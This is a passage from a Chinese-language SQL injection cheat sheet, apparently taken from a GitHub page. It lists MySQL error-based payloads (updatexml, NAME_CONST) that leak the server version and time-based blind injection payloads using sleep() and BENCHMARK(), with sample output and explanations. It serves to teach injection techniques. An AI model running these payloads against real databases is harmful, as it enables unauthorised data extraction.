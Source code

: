     ERROR 1105 (HY000): XPATH syntax error: '~5.6.17~'
    
    解释：mysql 对xml 数据进行检查查询的xpath 函数，xpath 语法错误
    
- `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`

    ERROR 1105 (HY000): XPATH syntax error: '~5.6.17~'
    
    解释：//mysql 对xml 数据进行修改的xpath 函数，xpath 语法错误，注意顺序不能调换
    
- `select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;`

    ERROR 1060 (42S21): Duplicate column name '5.6.17'

    解释：mysql 重复特性，此处重复了version，所以报错。


### 基于时间的SQL盲注——延时注入

基础判断执行sleep：`select If(ascii(substr(database(),1,1))>115,0,sleep(5))%23` <br>
其中115是s，%23是#

##### 利用sleep()延时注入语句
`select sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8,9,.'));`

| sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8,9,.')) |
|---------------------------------------------------------|
|                                                       0 |

1 row in set (1.00 sec)

解释：find_in_set表示从后面set找前面的元素，这里元素version的第一个值是5，得到的index是6，所以会停顿6秒，并且查询成功，返回0。

##### 性测测试延迟注入
```sql
UNION 
SELECT 
IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null)
FROM (select database() as current) as tb1;
```

解释：BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu 资源。推荐使用sleep()函数进行注入。



